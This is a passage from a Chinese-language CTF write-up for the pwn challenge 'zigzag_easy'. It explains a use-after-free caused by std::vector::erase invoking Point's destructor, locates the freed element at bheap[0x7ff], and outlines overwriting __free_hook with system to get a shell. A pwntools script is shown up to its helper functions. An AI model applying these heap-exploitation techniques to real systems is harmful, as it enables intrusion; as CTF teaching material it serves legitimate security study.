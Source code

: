 此处得到294（此处0x5555555652f8是&tree[0x1003]）

![](https://md.buptmerak.cn/uploads/upload_02bb3fab7d04746315fc25ca451c39c4.png)


关掉g.interactive()，手动输入交互逻辑，得到flag

![](https://md.buptmerak.cn/uploads/upload_d0c9eb9d18f84ee3a221e459a428f3d0.png)

## zigzag_easy

> 获取flag

Tree::deleteNote中存在std::vector\<Point\>::erase逻辑

![](https://md.buptmerak.cn/uploads/upload_be1488dea8c41efbea7adcf01c4eb8df.png)

std::vector::erase(a, idx)的本质逻辑是delete vec[idx]，vec[idx:-2]=vec[idx+1:-1]，delete vec[-1]。

![](https://md.buptmerak.cn/uploads/upload_49bd67495c88d40479b00bbea0d74674.png)

其中最后一步会执行vec[-1]的析构函数，而Point::~Point会delete在sign中申请的内存，存在UAF漏洞

![](https://md.buptmerak.cn/uploads/upload_a421b24bcfa28930302a00717641eaf8.png)

最后就是判断这个vec[-1]在哪，小根堆从后往前的顺序进的tree，也就是说vec[-1]是lheap[0]，也就是所有元素中最小的那个；然后进入SPLAY的tree中，因为是最小的，所以在SPLAY中的中序遍历必定是第一个，也就是第一个进入大根堆bheap的；因为这个值比所有树都小，所以这个节点会一直沿着bheap的左子树下降，直到bheap[0x7ff]。所以不管数怎么随机，vec[-1]就在bheap[0x7ff]上。

结合以上思路，无需理会算法逻辑，直接输入idx=0x7ff，接着就是UAF覆盖__free_hook为system，getshell（获得flag）

```python-repl=
from pwn import *
import subprocess, sys, os
from time import sleep

sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)

ip = '0.0.0.0'
port = 9999
remote_libc_path = './libc.so.6'

context(os='linux', arch='amd64')
context.log_level = 'debug'

def loadlibc(filename = remote_libc_path):
    global libc
    libc = ELF(filename, checksec = False)
def one_gadget(filename = remote_libc_path):
    return map(int, subprocess.check_output(['one_gadget', '--raw', filename]).split(' '))
def str2int(s, info = '', offset = 0):
    if type(s) == int:
        s = p.recv(s)
    ret = u64(s.ljust(8, b'\0')) - offset
    success('%s ==> 0x%x'%(info, ret))
    return ret
def sl(content):
    p.sendline(content)
    sleep(0.1)
def se(content):
    p.send(content)
    sleep(0.1)
NUM = (0x1000//2)-1
def chose(idx):
    sl(str(idx))
```